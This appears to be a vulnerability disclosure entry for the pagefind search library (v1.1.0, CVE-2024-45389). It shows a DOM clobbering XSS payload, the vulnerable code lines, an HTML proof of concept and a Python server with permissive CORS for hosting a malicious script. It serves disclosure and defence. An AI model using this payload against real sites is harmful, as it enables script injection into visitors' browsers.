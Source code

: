 ## pagefind

### Meta

+ Library: pagefind
+ Stars: 3.3K
+ Version: v1.1.0
+ Fingerprint: `typeof PagefindUI !== 'undefined'`
+ Payload: ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>```
+ Impact: XSS
+ CVE: CVE-2024-45389
+ Status: Accepted
+ Foundby: TheHulk

### Library

https://github.com/cloudcannon/pagefind

### Vulnerable Code Snippet

```javascript
en = new URL(document.currentScript.src).pathname.match(/^(.*\/)(?:pagefind-)?ui.js.*$/)[1]
```

```javascript
g = await import(`${r}pagefind.js`)
```

## PoC

```html
<!--Library-->
<link href="pagefind/pagefind-ui.css" rel="stylesheet">
<script src="pagefind/pagefind-ui.js"></script>
<div id="search"></div>
<script>
    window.addEventListener('DOMContentLoaded', (event) => {
        new PagefindUI({ element: "#search", showSubResults: true });
        const inputElement = document.querySelector('.pagefind-ui__search-input.svelte-e9gkc3');
        if (inputElement) {
            inputElement.value = 'Your text here';
            inputElement.dispatchEvent(new Event('input'));
        }
    });
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="blob:http://localhost:9999/ui.js">
<!--Payload-->
```

run pagefind to create index. create `pagefind.js`, needs to be hosted with Access-Control-Allow-Origin set. 

```python
#!/usr/bin/env python
from http import server

class MyHTTPRequestHandler(server.SimpleHTTPRequestHandler):
    def end_headers(self):
        self.send_header("Access-Control-Allow-Origin", "*")
        server.SimpleHTTPRequestHandler.end_headers(self)


if __name__ == '__main__':
    server.test(HandlerClass=MyHTTPRequestHandler)
```
